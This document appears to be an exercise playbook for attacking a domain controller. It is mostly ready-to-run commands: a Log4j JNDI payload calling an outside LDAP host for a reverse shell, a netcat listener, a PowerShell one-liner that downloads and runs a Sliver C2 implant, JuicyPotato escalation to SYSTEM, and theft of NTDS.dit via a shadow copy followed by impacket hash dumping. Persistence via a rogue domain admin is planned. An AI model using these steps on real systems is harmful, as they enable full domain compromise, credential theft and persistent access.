

# Cyber Challenge

# Phase 4 — DC-01

### Reconnaissance

Nmap/fping scans identify a web server running at `http://208.11.20.100:8080/`. Through <traffic sniffing and/or fuzzing?>, an API with a User-Agent header vulnerable to Log4j RCE was discovered: `http://208.11.20.100:8080.msn_apps/api/vulnerable/user`

**POC**: `curl -A '${jndi:ldap://94.249.194.1:1387/ReverseShell}' http://208.11.20.100:8080/msn_apps/api/vulnerable/user`

### Initial Access - Log4j

1. Start a netcat listener on port 9001 `nc -nvlp 9001`
2. In another terminal window `cd /home/user/Playbook` and run `./log4j.sh`
3. You should get a shell to the AOC C2 Domain Controller as `nt authority\local service`

### Delivering Sliver C2 payload

1. Create the Sliver C2 payload if it necessary. Example:

```bash
generate --http 94.249.192.5:8080 --save /home/user/Playbook/update.exe --os windows
```

1. From `/home/user/Playbook` start a python http server on port 8000
    1. Alternatively payload can be hosted an downloaded from another server
2. Upload C2 payload to victim machine `C:\Windows\ServiceProfiles\LocalService\AppData\Roaming` and execute

One-Liner:

```bash
powershell -c "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri 'http://94.249.192.1:8000/update.exe' -OutFile '%appdata%\update.exe'; %appdata%\update.exe"
```



### Privilege Escalation

1. After about a minute, a new Sliver session should open.

```bash
sessions
use [session ID]
```

1. Basic enumeration with Sliver commands `whoami` and `getprivs` reveals the current user as a service account with `SeImpersonatePrivilege`
2. Within the Sliver interface, upload JuicyPotato.exe exploit and execute. Change the local listening port if necessary. It can be any port not already in use on the victim machine.

```bash
upload /home/user/JuicyPotato.exe 'C:/Windows/ServiceProfiles/LocalService/AppData/Roaming/install.exe'

shell

C:/Windows/ServiceProfiles/LocalService/AppData/Roaming/install.exe -l 3388 -t * -p C:/Windows/ServiceProfiles/LocalService/AppData/Roaming/update.exe
```

1. If the command completes properly, exit the interactive shell session to return to the Sliver interface. After a short moment, a new session will start as `NT AUTHORITY\SYSTEM` user.

```bash
exit / [Ctrl + D]
```

### Dump Domain Hashes

1. Enter the new privileged Sliver session and enter an interactive shell session. Use vssadmin to create a shadow copy of the C drive. Then extract NTDS.dit and the SYSTEM registry hive. 
    1. Pay attention to the output from the `vssadmin` command to determine the name of the shadow volume: e.g. `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy#` where `#` is the number of the shadow volume

```bash
use [session ID]
shell
vssadmin create shadow /for=C:
mkdir C:\backups
reg save SYSTEM C:\backups\SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\ntds\ntds.dir C:\backups\ntds.dit

# Return to Sliver
exit / [Ctrl + D]

download C:\backups\SYSTEM
download C:\backups\ntds.dit
# Cleanup? -- Delete files
```

1. In another terminal window, move to the directory with the extracted files and dump hashes with `impacket`

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```


### TODO #1: Persistence - Evil Domain Admin

### TODO #2: Persistence - Registry Keys/AutoRuns

[Sliver - Meterpreter](https://www.notion.so/Sliver-Meterpreter-0139dc3552684ac09c71769624814962?pvs=21)